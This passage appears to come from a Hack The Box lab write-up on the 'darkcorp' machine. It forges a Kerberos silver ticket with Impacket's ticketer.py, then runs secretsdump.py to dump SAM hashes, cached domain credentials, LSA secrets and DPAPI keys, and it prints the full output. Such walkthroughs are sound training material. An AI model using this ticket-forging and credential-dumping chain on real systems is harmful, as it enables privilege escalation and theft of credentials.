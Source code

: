 or we can do with silver ticket attack.

```bash
ticketer.py -nthash "8f33c7fc7ff515c1f358e488fbb8b675" -domain-sid 'S-1-5-21-3432610366-2163336488-3604236847' -domain darkcor.htb -dc-ip 172.16.20.2 -spn "cifs/WEB-01.darkcorp.htb" Administrator 

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for darkcor.htb/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in Administrator.ccache
```

and secretsdump

```bash
secretsdump.py darkcorp.htb/administrator@WEB-01.darkcorp.htb -k -no-pass
/usr/local/bin/secretsdump.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('impacket==0.13.0.dev0+20250523.184829.f2f2b367', 'secretsdump.py')
Impacket v0.13.0.dev0+20250523.184829.f2f2b367 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x4cf6d0e998d53752d088e233abb4bed6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:88d84ec08dad123eb04a060a74053f21:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
DARKCORP.HTB/svc_acc:$DCC2$10240#svc_acc#3a5485946a63220d3c4b118b36361dbb: (2025-10-18 00:33:06+00:00)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
darkcorp\WEB-01$:plain_password_hex:4100520044006c002600710072005a00640022007400230061003d004f00520063005e006b006e004f005d00270034004b0041003a003900390074006200320031006a0040005a004f004f005c004b003b00760075006600210063004f0075002f003c0072005d0043004c004a005800250075006c002d00440064005f006b00380038002c00270049002c0046004000680027003b004500200021003b0042004d005f0064003b0066002300700068005500440069002f0054002300320022005f004c0056004c003c0049006f002600480076002c005d00610034005500470077004a0076005f003400740054004800
darkcorp\WEB-01$:aad3b435b51404eeaad3b435b51404ee:8f33c7fc7ff515c1f358e488fbb8b675:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x1004cecdc9b33080d25a4a29126d4590eb555c5f
dpapi_userkey:0x7f3f9f871ea1dafaea01ae4ccf6e3f7ee535e472
[*] NL$KM 
 0000   DD C9 21 14 B9 23 69 1B  D8 BE FD 57 6B 3C 3E E1   ..!..#i....Wk<>.
 0010   9D 3D 3F 74 82 AF 75 33  FD 74 61 6E B7 24 55 AF   .=?t..u3.tan.$U.
 0020   6F 61 A0 BC 2B 2A 86 CF  6E EC E0 D3 37 98 FE E5   oa..+*..n...7...
 0030   14 54 7D A9 A6 45 19 37  F1 20 24 4B 18 43 19 72   .T}..E.7. $K.C.r
NL$KM:ddc92114b923691bd8befd576b3c3ee19d3d3f7482af7533fd74616eb72455af6f61a0bc2b2a86cf6eece0d33798fee514547da9a6451937f120244b18431972
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
```
